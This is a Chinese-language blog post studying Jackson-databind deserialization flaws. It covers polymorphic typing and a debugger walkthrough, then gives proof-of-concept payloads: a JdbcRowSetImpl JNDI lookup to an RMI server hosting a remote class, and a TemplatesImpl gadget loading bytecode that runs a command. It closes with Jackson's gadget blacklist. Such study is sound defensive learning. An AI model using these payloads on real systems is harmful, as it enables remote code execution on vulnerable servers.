

# 环境搭建

```
<dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-databind</artifactId>
    <version>2.7.9</version>
</dependency>
```

# 序列化与反序列化

jackson的序列化与反序列化和fastjson有类似之处，都是又不完全相同

jackson依赖ObjectMapper的writeValueAsString进行序列化，readValue进行反序列化，但是这两个方法不是静态方法，需要先实例化

```java
package Jackson;

public class User {
    private String name;
    private int age;
    public Flag flag;

    public User(String name, int age, Flag flag) {
        System.out.println("user constructor called");
        this.name = name;
        this.age = age;
        this.flag = flag;
    }

    public User() {
        System.out.println("user default constructor called");
    }

    public String getName() {
        System.out.println("user getName called");
        return name;
    }

    public void setName(String name) {
        System.out.println("user setName called");
        this.name = name;
    }

    public int getAge() {
        System.out.println("user getAge called");
        return age;
    }

    public void setAge(int age) {
        System.out.println("user setAge called");
        this.age = age;
    }

    public Flag getFlag() {
        System.out.println("user getFlag called");
        return flag;
    }

    public void setFlag(Flag flag) {
        System.out.println("user setFlag called");
        this.flag = flag;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", flag=" + flag +
                '}';
    }
}

class Flag {
    public String value;

    @Override
    public String toString() {
        return "Flag{" +
                "value='" + value + '\'' +
                '}';
    }

    public String getValue() {
        System.out.println("flag getValue called");
        return value;
    }

    public void setValue(String value) {
        System.out.println("flag setValue called");
        this.value = value;
    }

    public Flag(String value) {
        System.out.println("flag constructor called");
        this.value = value;
    }

    public Flag() {
        System.out.println("flag default constructor called");
    }
}

```

TestUser

```java
package Jackson;

import com.fasterxml.jackson.databind.ObjectMapper;


public class TestUser {
    public static void main(String[] args) throws Exception{
        Flag flag = new Flag("flag{xxxxxx}");
        User user = new User("DawnT0wn", 22, flag);
        ObjectMapper objectMapper = new ObjectMapper();

        System.out.println("==start serialize==");
        String s = objectMapper.writeValueAsString(user);
        System.out.println(s);
        System.out.println("==start deserialize==");
        User user1 = objectMapper.readValue(s, User.class);
    }
}
```

运行结果

```
flag constructor called
user constructor called
==start serialize==
user getName called
user getAge called
user getFlag called
flag getValue called
{"name":"DawnT0wn","age":22,"flag":{"value":"flag{xxxxxx}"}}
==start deserialize==
user default constructor called
user setName called
user setAge called
flag default constructor called
flag setValue called
user setFlag called
```

可以看到在序列化的时候会调用getter方法，并得到一个json格式的字符串，而在反序列化的时候会调用无参的构造函数，然后去调用setter方法

# 漏洞成因

既然可以在反序列化的时候调用setter方法，那和fastjson漏洞的成因就有点类似

1. 目标类的构造函数、set系列函数含有恶意操作，并且参数可控制；

2. 目标类的子类、活着目标类的属性的子类的构造函数、set系列函数含有恶意操作，并且参数可控制，如目标类有个属性类型为Object，那么服务端中任意其他类都能为我所用。

在fastjson中，我们只用到了第一种方法，而且fastjson在一顶条件下是可以调用getter方法的，而第二种方法涉及到了子类继承问题，比如反序列化的时候是否需要反序列化子类，反序列化哪个子类等，这种多态问题fastjson是不支持的，而jackson对多态的支持通过 `objectMapper.enableDefaultTyping()`提供支持

jackson实现了JacksonPolymorphicDeserialization机制来解决这种多态导致的问题。主要方法有两种：

1. 在调用序列化函数writeValueAsString()前，通过enableDefaultTyping()申明序列化范围。

2. 在被序列化类里面，对相应属性使用@JsonTypeInfo进行注解，从而设置序列化范围。

# 多态反序列化

jackson实现了JacksonPolymorphicDeserialization机制来解决这种多态导致的问题。主要方法有两种：

1. 在调用序列化函数writeValueAsString()前，通过enableDefaultTyping()申明序列化范围。

2. 在被序列化类里面，对相应属性使用@JsonTypeInfo进行注解，从而设置序列化范围。

## enableDefaultTyping

enableDefaultTyping可以设置如下参数，适用范围从上至下逐渐变大。

| enableDefaultTyping类型 | 描述说明                                            |
| ----------------------- | --------------------------------------------------- |
| JAVA_LANG_OBJECT        | 属性的类型为Object                                  |
| OBJECT_AND_NON_CONCRETE | 属性的类型为Object、Interface、AbstractClass        |
| NON_CONCRETE_AND_ARRAYS | 属性的类型为Object、Interface、AbstractClass、Array |
| NON_FINAL               | 所有除了声明为final之外的属性                       |

也可以不设置参数


默认的是OBJECT_AND_NON_CONCRETE

可以来看看如果不加上enableDefaultTyping会怎么样，修改上面的类

User

```java
package Jackson;

public class User {
    private String name;
    private int age;
    public FlagHandler flag;

    public User(String name, int age, Flag flag) {
        System.out.println("user constructor called");
        this.name = name;
        this.age = age;
        this.flag = flag;
    }

    public User() {
        System.out.println("user default constructor called");
    }

    public String getName() {
        System.out.println("user getName called");
        return name;
    }

    public void setName(String name) {
        System.out.println("user setName called");
        this.name = name;
    }

    public int getAge() {
        System.out.println("user getAge called");
        return age;
    }

    public void setAge(int age) {
        System.out.println("user setAge called");
        this.age = age;
    }

    public FlagHandler getFlag() {
        System.out.println("user getFlag called");
        return flag;
    }

    public void setFlag(FlagHandler flag) {
        System.out.println("user setFlag called");
        this.flag = flag;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", flag=" + flag +
                '}';
    }
}
```

FlagHandler

```java
package Jackson;

public interface FlagHandler {
}
```

Flag

```java
package Jackson;

public class Flag implements FlagHandler {
    public String value;

    @Override
    public String toString() {
        return "Flag{" +
                "value='" + value + '\'' +
                '}';
    }

    public String getValue() {
        System.out.println("flag getValue called");
        return value;
    }

    public void setValue(String value) {
        System.out.println("flag setValue called");
        this.value = value;
    }

    public Flag(String value) {
        System.out.println("flag constructor called");
        this.value = value;
    }

    public Flag() {
        System.out.println("flag default constructor called");
    }
}
```

TestUser

```java
package Jackson;

import com.alibaba.fastjson.JSON;
import com.fasterxml.jackson.databind.ObjectMapper;


public class TestUser {
    public static void main(String[] args) throws Exception{

        Flag flag = new Flag("flag{xxxxxx}");
        User user = new User("DawnT0wn", 22, flag);
        ObjectMapper objectMapper = new ObjectMapper();
        System.out.println("==start serialize==");

//        objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.OBJECT_AND_NON_CONCRETE);

        String s = objectMapper.writeValueAsString(user);
        System.out.println(s);
        System.out.println("==start deserialize==");
        User user1 = objectMapper.readValue(s, User.class);
    }
}
```


在加载到FlagHandler的类的时候，因为这是一个接口类，无法实例化报错了，并没有去实例化它的子类

如果设置了多态


序列化出来的json格式带上了类名，实例化了接口的实现类的构造函数，并调用了其中的setter方法

这里flag属性是FlagHandler

```
public FlagHandler flag;
```

如果是object属性的话，如果`public object flag`为一个实例化类，不加多态支持的话就会去实例化object类赋值不好去序列化实例化的累，加上多态支持的话，会序列化那一个类，反序列化调用那个类的构造方法

具体来看下面这个例子

修改User类

```java
package Jackson;

public class User {
    private String name;
    private int age;
    public Object flag;

    public User(String name, int age, Flag flag) {
        System.out.println("user constructor called");
        this.name = name;
        this.age = age;
        this.flag = flag;
    }

    public User() {
        System.out.println("user default constructor called");
    }

    public String getName() {
        System.out.println("user getName called");
        return name;
    }

    public void setName(String name) {
        System.out.println("user setName called");
        this.name = name;
    }

    public int getAge() {
        System.out.println("user getAge called");
        return age;
    }

    public void setAge(int age) {
        System.out.println("user setAge called");
        this.age = age;
    }

    public Object getFlag() {
        System.out.println("user getFlag called");
        return flag;
    }

    public void setFlag(Object flag) {
        System.out.println("user setFlag called");
        this.flag = flag;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", flag=" + flag +
                '}';
    }
}
```

修改flag类

```
package Jackson;

import java.io.IOException;

public class Flag implements FlagHandler {
    public String value;

    public Flag(String value) {
        System.out.println("flag constructor called");
        this.value = value;
    }

    public Flag() throws IOException {
        Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
        System.out.println("flag default constructor called");
    }
}
```

TestUser

```
package Jackson;

import com.alibaba.fastjson.JSON;
import com.fasterxml.jackson.databind.ObjectMapper;


public class TestUser {
    public static void main(String[] args) throws Exception{

        Flag flag = new Flag("flag{xxxxxx}");
        User user = new User("DawnT0wn", 22, flag);
        ObjectMapper objectMapper = new ObjectMapper();
        System.out.println("==start serialize==");

//        objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.OBJECT_AND_NON_CONCRETE);

        String s = objectMapper.writeValueAsString(user);
        System.out.println(s);
        System.out.println("==start deserialize==");
        User user1 = objectMapper.readValue(s, User.class);
    }
}
```

当没有设置enableDefaultTyping支持的时候


只对flag进行了赋值，反序列化的时候没有调用flag类的构造函数

开启多态支持后


调用了flag类的构造函数

## @JsonTypeInfo

@JsonTypeInfo注解是Jackson多态类型绑定的第二种方式，主要有下面5种类型

| 类型                                               | 说明                                                  |
| -------------------------------------------------- | ----------------------------------------------------- |
| @JsonTypeInfo(use = JsonTypeInfo.Id.NONE)          | 字如其名，和没设置一样                                |
| @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)         | Json多了@class字段，用于标明相关属性的包和类名        |
| @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS) | Json多了@c字段，用于标明相关属性的包和类名            |
| @JsonTypeInfo(use = JsonTypeInfo.Id.NAME)          | Json多了@type字段，用于标明相关属性的类名(无包情况下) |
| @JsonTypeInfo(use = JsonTypeInfo.Id.CUSTOM)        | 用户自定义，需要手写解析器                            |


举个例子

flag类不变，修改，User类

```java
package Jackson;

import com.fasterxml.jackson.annotation.JsonTypeInfo;

public class User {
    private String name;
    private int age;
    @JsonTypeInfo(use=JsonTypeInfo.Id.CLASS)
    public Object flag;

    public User(String name, int age, Flag flag) {
        System.out.println("user constructor called");
        this.name = name;
        this.age = age;
        this.flag = flag;
    }

    public User() {
        System.out.println("user default constructor called");
    }

    public String getName() {
        System.out.println("user getName called");
        return name;
    }

    public void setName(String name) {
        System.out.println("user setName called");
        this.name = name;
    }

    public int getAge() {
        System.out.println("user getAge called");
        return age;
    }

    public void setAge(int age) {
        System.out.println("user setAge called");
        this.age = age;
    }

    public Object getFlag() {
        System.out.println("user getFlag called");
        return flag;
    }

    public void setFlag(Object flag) {
        System.out.println("user setFlag called");
        this.flag = flag;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", flag=" + flag +
                '}';
    }
}
```

TestUser

```java
package Jackson;

import com.alibaba.fastjson.JSON;
import com.fasterxml.jackson.databind.ObjectMapper;


public class TestUser {
    public static void main(String[] args) throws Exception{

        Flag flag = new Flag("flag{xxxxxx}");
        User user = new User("DawnT0wn", 22, flag);
        ObjectMapper objectMapper = new ObjectMapper();
        System.out.println("==start serialize==");

        String s = objectMapper.writeValueAsString(user);
        System.out.println(s);
        System.out.println("==start deserialize==");
        User user1 = objectMapper.readValue(s, User.class);
    }
}
```


可以看到序列化字符串多了一个@class字段，就和fastjson的@type类似

`@JsonTypeInfo(use = JsonTypeInfo.Id.NAME)`这个需要在无包名的情况下才能使用


只用一个类名而没有加上包名，会找不到而报错

# Jackson反序列化调试分析

```
package Jackson;

import com.fasterxml.jackson.databind.ObjectMapper;


public class TestUser {
    public static void main(String[] args) throws Exception{

        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.OBJECT_AND_NON_CONCRETE);
        String s = "{\"name\":\"DawnT0wn\",\"age\":22,\"flag\":[\"Jackson.Flag\",{\"value\":\"flag{xxxxxx}\"}]}";
        System.out.println("==start deserialize==");
        User user1 = objectMapper.readValue(s, User.class);
    }
}
```

在readValue处下断点

```
public <T> T readValue(String content, Class<T> valueType) throws IOException, JsonParseException, JsonMappingException {
    return this._readMapAndClose(this._jsonFactory.createParser(content), this._typeFactory.constructType(valueType));
}
```

根据`this.readMapAndClose`，里面的两个参数的话不用去细跟，主要就是将String生成一个Paser对象，用于后面的解析，还有获取到的JavaType: 主要记录了类Class,superClass等信息


跟进deserialize


调用了createUsingDefault函数，这个函数的功能就是去调用无参的构造函数实例化类


继续跟进call


首先是User类，然后回到vanillaDeserialize方法继续往下


往下来到了一个do循环，目的就是循环对User类的属性键值对赋值，跟进deserializeAndSet


跟进deserialize，这里的deserialize 会判断是否开启了 DefaultTyping ，如果开启了该属性则使⽤ deserializeWithType ⽅法获取值，反之使⽤ deserialize ⽅法获取值，也就是说开启了的话，如果存在子类会去使⽤ deserializeWithType ⽅法获取子类的值，后面Object属性的flag就会用到


进入了else分支，通过_valueTypeDeserializer判断反序列化目标是否带有类型

```
return this._valueTypeDeserializer != null ? this._valueDeserializer.deserializeWithType(p, ctxt, this._valueTypeDeserializer) : this._valueDeserializer.deserialize(p, ctxt);
```


三目运算符判断为false（因为name是系统类型String），调用`this._valueDeserializer.deserialize(p, ctxt)`


`p.getText`获取name的值直接返回，回到deserializeAndSet调用invoke，通过反射调用setName



接下来就是循环调用，当到了flag属性的时候，因为flag自带Object属性，使用三目运算符这个判断为true


调用this._valueDeserializer.deserializeWithType


跟进deserializeTypedFromAny

```
public Object deserializeTypedFromAny(JsonParser jp, DeserializationContext ctxt) throws IOException {
    return this._deserialize(jp, ctxt);
}
```

跟进deserialize


通过`this._locateTypeId`得到了typeId为`Jackson.flag`，然后调用this._findDeserializer


讲typeId和deser一起put到map中，回到_deserialize中向下步进


调用了deser.deserialize，跟进


跟进vanillaDeserilize


和之前User类一样，这里去实例化Jackson.Flag的无参方法，接下来就和之前的是一模一样的了

# Jackson反序列化漏洞利用

## JNDI

既然Jackson和fastjson反序列化都是去调用setter方法，那么fastjson的利用链在Jackson理应可用

只需要改一下json格式

```
package Jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class unser {
    public static void main(String[] args) throws Exception{
        ObjectMapper objectMapper =new ObjectMapper();
        String poc = "[\"com.sun.rowset.JdbcRowSetImpl\",{\"dataSourceName\":\"rmi://127.0.0.1:1099/exp\",\"autoCommit\":true}]";
        objectMapper.enableDefaultTyping();
        objectMapper.readValue(poc,Object.class);
    }


}
```

python3 -m http.server 8888

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8888/#exp
```


## Java反序列化

在[这篇文章](https://thonsun.github.io/2020/11/02/jackjson-fan-xu-lie-hua-lou-dong-li-yong-yuan-li/)中解释了Jackson反序列化在一定条件下能调用getter方法

1. 没有setting方法

2. 私有属性

3. getter方法返回值是Map,Collection的类型

`com.sun.org.apache.xalan.internal.xsltc.TemplateImpl` 说明在jackson反序列化中利用Java反序列化漏洞进行RCE的利用**调用getter方法的情况**。这个主要的利用对象TemplateImpl的属性 `_outputProperties` 在JsonBeanDeserializer 调用的是getter方法

TemplateImpl加载字节码的操作也已经见过很多次了，就不再分析了，就来看看最后的效果吧

**影响版本**

Jackson 2.6系列 < 2.6.7.1
Jackson 2.7系列 < 2.7.9.1
Jackson 2.8系列 < 2.8.8.1

调用链

```java
TemplatesImpl.getOutputProperties()
  TemplatesImpl.newTransformer()
    TemplatesImpl.getTransletInstance()
      TemplatesImpl.defineTransletClasses()
        ClassLoader.defineClass()
        Class.newInstance()
```

恶意类

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class exp extends AbstractTranslet {
    public exp() {
        try {
            Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

}
```

poc

```
package Jackson;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.springframework.util.FileCopyUtils;

import java.io.*;


public class TestUser {
    public static void main(String[] args) throws Exception{

        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        String evil = readClassStr("/Users/DawnT0wn/IdeaProjects/Spring/src/main/java/exp.class");
        String s = "{\"name\":\"DawnT0wn\",\"age\":22,\"flag\":[\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",{\"transletBytecodes\":[\"" + evil + "\"],\"transletName\":\"DawnT0wn\",\"outputProperties\":{}}]}";
        User user1 = objectMapper.readValue(s, User.class);
    }
    public static String readClassStr(String cls){
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        try {
            FileCopyUtils.copy(new FileInputStream(new File(cls)),byteArrayOutputStream);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encode(byteArrayOutputStream.toByteArray());
    }
}
```

复现了很久，发现环境有问题，对于使用 `_tfactory.getExternalExtensionsMap()` 的JDK来说，由于Jackson无法给_tfactory(私有且无getter&setter)赋值，会抛出空指针异常没有进入下面的类加载过程。

最后[这篇文章](https://thonsun.github.io/2020/11/02/jackjson-fan-xu-lie-hua-lou-dong-li-yong-yuan-li/)的作者利用JDK1.6u45复现成功


而为之前复现的jdk都是


这样会抛出空指针异常

# 防御

jackson漏洞的利用方式在fastjson上大部分都能兼容，如果使用jackson且防止反序列化漏洞的话，一方面可能需要升级最新jackson的组件版本，另一方面尽量避免使用Object对象作为Jackson反序列化的目标

jackson到现在为止都黑名单

```
  Set<String> s = new HashSet<String>();
        // Courtesy of [https://github.com/kantega/notsoserial]:
        // (and wrt [databind#1599])
        s.add("org.apache.commons.collections.functors.InvokerTransformer");
        s.add("org.apache.commons.collections.functors.InstantiateTransformer");
        s.add("org.apache.commons.collections4.functors.InvokerTransformer");
        s.add("org.apache.commons.collections4.functors.InstantiateTransformer");
        s.add("org.codehaus.groovy.runtime.ConvertedClosure");
        s.add("org.codehaus.groovy.runtime.MethodClosure");
        s.add("org.springframework.beans.factory.ObjectFactory");
        s.add("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        s.add("org.apache.xalan.xsltc.trax.TemplatesImpl");
        // [databind#1680]: may or may not be problem, take no chance
        s.add("com.sun.rowset.JdbcRowSetImpl");
        // [databind#1737]; JDK provided
        s.add("java.util.logging.FileHandler");
        s.add("java.rmi.server.UnicastRemoteObject");
        // [databind#1737]; 3rd party
//s.add("org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor"); // deprecated by [databind#1855]
        s.add("org.springframework.beans.factory.config.PropertyPathFactoryBean");

// s.add("com.mchange.v2.c3p0.JndiRefForwardingDataSource"); // deprecated by [databind#1931]
// s.add("com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"); // - "" -
        // [databind#1855]: more 3rd party
        s.add("org.apache.tomcat.dbcp.dbcp2.BasicDataSource");
        s.add("com.sun.org.apache.bcel.internal.util.ClassLoader");
        // [databind#1899]: more 3rd party
        s.add("org.hibernate.jmx.StatisticsService");
        s.add("org.apache.ibatis.datasource.jndi.JndiDataSourceFactory");
        // [databind#2032]: more 3rd party; data exfiltration via xml parsed ext entities
        s.add("org.apache.ibatis.parsing.XPathParser");

        // [databind#2052]: Jodd-db, with jndi/ldap lookup
        s.add("jodd.db.connection.DataSourceConnectionProvider");

        // [databind#2058]: Oracle JDBC driver, with jndi/ldap lookup
        s.add("oracle.jdbc.connector.OracleManagedConnectionFactory");
        s.add("oracle.jdbc.rowset.OracleJDBCRowSet");

        // [databind#2097]: some 3rd party, one JDK-bundled
        s.add("org.slf4j.ext.EventData");
        s.add("flex.messaging.util.concurrent.AsynchBeansWorkManagerExecutor");
        s.add("com.sun.deploy.security.ruleset.DRSHelper");
        s.add("org.apache.axis2.jaxws.spi.handler.HandlerResolverImpl");

        // [databind#2186]: yet more 3rd party gadgets
        s.add("org.jboss.util.propertyeditor.DocumentEditor");
        s.add("org.apache.openjpa.ee.RegistryManagedRuntime");
        s.add("org.apache.openjpa.ee.JNDIManagedRuntime");
        s.add("org.apache.axis2.transport.jms.JMSOutTransportInfo");

        // [databind#2326] (2.9.9)
        s.add("com.mysql.cj.jdbc.admin.MiniAdmin");

        // [databind#2334]: logback-core (2.9.9.1)
        s.add("ch.qos.logback.core.db.DriverManagerConnectionSource");

        // [databind#2341]: jdom/jdom2 (2.9.9.1)
        s.add("org.jdom.transform.XSLTransformer");
        s.add("org.jdom2.transform.XSLTransformer");

        // [databind#2387]: EHCache
        s.add("net.sf.ehcache.transaction.manager.DefaultTransactionManagerLookup");

        // [databind#2389]: logback/jndi
        s.add("ch.qos.logback.core.db.JNDIConnectionSource");
```

# 写在最后

这次学习还是踩了不少坑，特别是最后templatesImp利用链，不过jackson和fastjson大部分能互通，特别是那些调用setter方法都fastjson漏洞在jackson里面改一改都行，不过getter方法都就有很大的限制了


参考链接

https://blog.csdn.net/qq_34101364/article/details/111996656

https://thonsun.github.io/2020/11/02/jackjson-fan-xu-lie-hua-lou-dong-li-yong-yuan-li/